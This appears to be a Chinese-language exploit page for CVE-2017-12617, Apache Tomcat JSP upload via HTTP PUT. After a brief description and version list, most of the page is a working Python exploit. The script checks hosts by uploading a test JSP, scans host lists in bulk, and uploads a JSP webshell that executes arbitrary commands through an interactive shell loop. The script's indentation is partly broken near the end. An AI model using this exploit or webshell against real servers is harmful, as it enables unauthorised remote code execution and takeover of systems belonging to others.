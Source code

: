 （CVE-2017-12617）Tomcat RCE via JSP Upload Bypass
==================================================

一、漏洞简介
------------

Apache
Tomcat版本9.0.0.M1至9.0.0、8.5.0至8.5.22、8.0.0.RC1至8.0.46和7.0.0至7.0.81且启用HTTP
PUT时（例如，通过设置只读如果将Default
servlet的初始化参数设置为false，则可以通过特制请求将JSP文件上载到服务器。然后可以请求此JSP，并且服务器将执行其中包含的所有代码。

二、漏洞影响
------------

Apache Tomcat版本9.0.0.M1至9.0.0Apache Tomcat版本8.5.0至8.5.22Apache Tomcat版本8.0.0.RC1至8.0.46Apache Tomcat版本7.0.0至7.0.81

三、复现过程
------------

**msf自带的有利用脚本，懒省事可以直接用msf**![QQ截图20200521185636.png](resource/(CVE-2017-12617)TomcatRCEviaJSPUploadBypass/media/rId24.png)

### poc

**useage**

    ./cve-2017-12617.py -u http://www.0-sec.org
    ./cve-2017-12617.py --url http://www.0-sec.org
    ./cve-2017-12617.py -u http://www.0-sec.org -p pwn
    ./cve-2017-12617.py --url http://www.0-sec.org -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    #!/usr/bin/python
    import requests
    import re
    import signal
    from optparse import OptionParser






    class bcolors:
        HEADER = '\033[95m'
        OKBLUE = '\033[94m'
        OKGREEN = '\033[92m'
        WARNING = '\033[93m'
        FAIL = '\033[91m'
        ENDC = '\033[0m'
        BOLD = '\033[1m'
        UNDERLINE = '\033[4m'




    banner="""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    [@intx0x80]
    """





    def signal_handler(signal, frame):

        print ("\033[91m"+"\n[-] Exiting"+"\033[0m")

        exit()

    signal.signal(signal.SIGINT, signal_handler)




    def removetags(tags):
      remove = re.compile('<.*?>')
      txt = re.sub(remove, '\n', tags)
      return txt.replace("\n\n\n","\n")


    def getContent(url,f):
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        re=requests.get(str(url)+"/"+str(f), headers=headers,verify=False)
        return re.content

    def createPayload(url,f):
        evil='<% out.println("AAAAAAAAAAAAAAAAAAAAAAAAAAAAA");%>'
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+str(f)+"/",data=evil, headers=headers,verify=False)
        if req.status_code==201:
            print "File Created .."

       
    def RCE(url,f):
        EVIL="""<FORM METHOD=GET ACTION='{}'>""".format(f)+"""
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
        </FORM>
        <%@ page import="java.io.*" %>
        <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"</br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <pre><%=output %></pre>"""


        
        headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
        requests.packages.urllib3.disable_warnings()
        req=requests.put(str(url)+f+"/",data=EVIL, headers=headers,verify=False)
        


    def shell(url,f):
        
        while True:
            headers = {'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.95 Safari/537.36'}
            cmd=raw_input("$ ")
            payload={'cmd':cmd}
            if cmd=="q" or cmd=="Q":
                    break
            requests.packages.urllib3.disable_warnings()
            re=requests.get(str(url)+"/"+str(f),params=payload,headers=headers,verify=False)
            re=str(re.content)
            t=removetags(re)
            print t





    #print bcolors.HEADER+ banner+bcolors.ENDC

    parse=OptionParser(


    bcolors.HEADER+"""
       _______      ________    ___   ___  __ ______     __ ___   __ __ ______ 
      / ____\ \    / /  ____|  |__ \ / _ \/_ |____  |   /_ |__ \ / //_ |____  |
     | |     \ \  / /| |__ ______ ) | | | || |   / /_____| |  ) / /_ | |   / / 
     | |      \ \/ / |  __|______/ /| | | || |  / /______| | / / '_ \| |  / /  
     | |____   \  /  | |____    / /_| |_| || | / /       | |/ /| (_) | | / /   
      \_____|   \/   |______|  |____|\___/ |_|/_/        |_|____\___/|_|/_/    
                                                                               
                                                                               
    ./cve-2017-12617.py [options]
    options:
    -u ,--url [::] check target url if it's vulnerable 
    -p,--pwn  [::] generate webshell and upload it
    -l,--list [::] hosts list
    [+]usage:
    ./cve-2017-12617.py -u http://127.0.0.1
    ./cve-2017-12617.py --url http://127.0.0.1
    ./cve-2017-12617.py -u http://127.0.0.1 -p pwn
    ./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
    ./cve-2017-12617.py -l hotsts.txt
    ./cve-2017-12617.py --list hosts.txt
    [@intx0x80]
    """+bcolors.ENDC

        )


    parse.add_option("-u","--url",dest="U",type="string",help="Website Url")          
    parse.add_option("-p","--pwn",dest="P",type="string",help="generate webshell and upload it")
    parse.add_option("-l","--list",dest="L",type="string",help="hosts File")

    (opt,args)=parse.parse_args()

    if opt.U==None and opt.P==None and opt.L==None:
        print(parse.usage)
        exit(0)



    else:
        if opt.U!=None and opt.P==None and opt.L==None:
            print bcolors.OKGREEN+banner+bcolors.ENDC 
            url=str(opt.U)
            checker="Poc.jsp"
            print bcolors.BOLD +"Poc Filename  {}".format(checker)
            createPayload(str(url)+"/",checker)
            con=getContent(str(url)+"/",checker)
            if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                print bcolors.WARNING+url+' it\'s Vulnerable to CVE-2017-12617'+bcolors.ENDC
            print bcolors.WARNING+url+"/"+checker+bcolors.ENDC
            
        else:
                print 'Not Vulnerable to CVE-2017-12617 '
        elif opt.P!=None and opt.U!=None and  opt.L==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            pwn=str(opt.P)
            url=str(opt.U)
            print "Uploading Webshell ....."
            pwn=pwn+".jsp"
            RCE(str(url)+"/",pwn)
            shell(str(url),pwn)
        elif opt.L!=None and opt.P==None and opt.U==None:
                    print bcolors.OKGREEN+banner+bcolors.ENDC 
            w=str(opt.L)
            f=open(w,"r")
            print "Scaning hosts in {}".format(w)
            checker="Poc.jsp"
            for i in f.readlines():
                i=i.strip("\n")
                createPayload(str(i)+"/",checker)
                con=getContent(str(i)+"/",checker)
                if 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAA' in con:
                    print str(i)+"\033[91m"+" [ Vulnerable ] ""\033[0m"
